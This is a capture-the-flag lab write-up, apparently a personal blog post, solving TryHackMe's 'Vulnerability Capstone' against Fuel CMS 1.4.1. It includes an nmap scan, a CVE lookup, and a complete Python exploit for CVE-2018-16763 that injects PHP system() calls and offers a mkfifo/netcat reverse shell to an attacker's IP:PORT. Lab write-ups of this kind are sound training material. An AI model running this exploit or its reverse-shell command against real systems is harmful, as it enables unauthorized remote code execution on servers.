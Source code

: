 # Vulnerability Capstone

![](https://i.imgur.com/EBn7Nuf.png)

### Question 1
- What is the name of the application running on the vulnerable machine?
after running a scan on the IP Address i found open ports

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV 10.10.42.79 -T4     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-02 09:16 EST
Nmap scan report for 10.10.42.79
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.17 seconds
```
there is a web-server running on port `80` so i navigate to the site and found:
![](https://i.imgur.com/64K0T63.png)

### Question 2
- What is the version number of this application?
from the last screenshot we will find the answer

### Question 3
- What is the number of the CVE that allows an attacker to remotely execute code on this application?
 **Format:** CVE-XXXX-XXXXX
  
 ![](https://i.imgur.com/dPlwVqK.png)
searching for exploit for the service and version running i got the above result and also know that i can get RCE from the server.

if we click on the first search result we will find the CVE number
![](https://i.imgur.com/TTZiPfI.png)

i downloaded the exploit but it didn't work so i decide to use the exploit from `tryhackme` attackbox
![](https://i.imgur.com/4SRug1n.png)

###  Attackbox exploit

```python
#!/usr/bin/python3

# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763
# 
# Poc Created by Ac1d (assassin) 



import requests
import sys
import urllib

from requests.sessions import extract_cookies_to_jar

class col:
    HEADER = '\033[95m'
    BLUE = '\033[94m'
    CYAN = '\033[96m'
    GREEN = '\033[92m'
    WARNING = '\033[93m'
    FAIL = '\033[91m'
    RESET = '\033[0m'
    BLACK = "\033[0;30m"
    RED = "\033[0;31m"
    GREEN = "\033[0;32m"
    BROWN = "\033[0;33m"
    BLUE = "\033[0;34m"
    PURPLE = "\033[0;35m"
    LIGHT_GRAY = "\033[0;37m"
    DARK_GRAY = "\033[1;30m"
    LIGHT_RED = "\033[1;31m"
    LIGHT_GREEN = "\033[1;32m"
    YELLOW = "\033[1;33m"
    LIGHT_BLUE = "\033[1;34m"
    LIGHT_PURPLE = "\033[1;35m"
    LIGHT_CYAN = "\033[1;36m"
    LIGHT_WHITE = "\033[1;37m"
    BOLD = "\033[1m"
    FAINT = "\033[2m"
    ITALIC = "\033[3m"
    UNDERLINE = "\033[4m"
    BLINK = "\033[5m"
    NEGATIVE = "\033[7m"
    CROSSED = "\033[9m"


def banner():
    banner = r"""
 ______         _ _____ ___  ___ _____ 
|  ___|        | /  __ \|  \/  |/  ___|
| |_ _   _  ___| | /  \/| .  . |\ `--. 
|  _| | | |/ _ \ | |    | |\/| | `--. \
| | | |_| |  __/ | \__/\| |  | |/\__/ /
\_|  \__,_|\___|_|\____/\_|  |_/\____/ 
Tested on 1.4                                       
"""
    banner += "Created by Ac1d"
    return col.LIGHT_BLUE + banner + col.RESET


def help():
    banner = col.LIGHT_WHITE + "\n\tMenu\n"
    banner += col.LIGHT_GREEN
    banner += "\nexit     -\tExit app"
    banner += "\nshell_me -\tGet a reverse shell (netcat) "
    banner += "\nhelp     -\tShow this help\n"+ col.RESET
    return banner
    


print(banner())
print(help())

#http://10.10.12.27/fuel/pages/select/?filter=%27%2Bpi(print(%24a%3D%27system%27))%2B%24a(%27ls%20-la%27)%2B%27

if len(sys.argv) != 2:
    print("\nUsage: python3 exploit.py Vulnerable IPADDRESS")
    sys.exit(0)

IP=sys.argv[1]

def parsePage(page):
    try:            
        page = page.split("<h4>A PHP Error was encountered</h4>")[0]
        page = page.split("<div")[0]
        page = page[6:]
        return page
    except:
        return False

try:
        
    while True:
        cmd = input(col.LIGHT_WHITE +"fuelCMS$ " + col.RESET)

        if cmd[0:4].lower() == "exit":
            print(col.RED + "Exiting..." + col.RESET)
            sys.exit(0)

        if cmd[0:8] == "shell_me":
            IP2, PORT = input(col.LIGHT_BLUE + "Enter your attacking machine IP:PORT $ " + col.RESET).split(":")
            nc = f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {IP2} {PORT} >/tmp/f"
            cmd = nc
            print(col.LIGHT_GREEN + "\nHope you had your listener ready!!" + col.RESET)
            
        if cmd[0:4] == "help":
            print(help())
            continue
        
        if not "/tmp/f;mkfifo" in cmd:
            print(col.LIGHT_GRAY + "Sending request." + col.RESET)
        cmd = urllib.parse.quote(cmd)
        r = requests.get(f"http://{IP}/fuel/pages/select/?filter=%27%2Bpi(print(%24a%3D%27system%27))%2B%24a(%27"+ cmd +"%27)%2B%27")
        if r.status_code == 200:
            page = parsePage(r.text)
            if page == "\n":
                print(col.RED + "No result" + col.RESET)
                continue
            print(col.LIGHT_GREEN+ f"\n{page.strip()}" + col.RESET)

except Exception as e:
    print(col.RED + f"An error occured, please try again...\n\n{e}" + col.RESET)
```

running this exploit and selecting the `shell_me` option then i specify my listening `IP:PORT` and i got a reverse shell
![](https://i.imgur.com/en6196R.png)
navigating to `/home/ubuntu` i found the flag 
![](https://i.imgur.com/TgTBD15.png)

# Thanks For Reading
<button onclick="window.location.href='https://hassans-sec.github.io';">Back To Home</button>
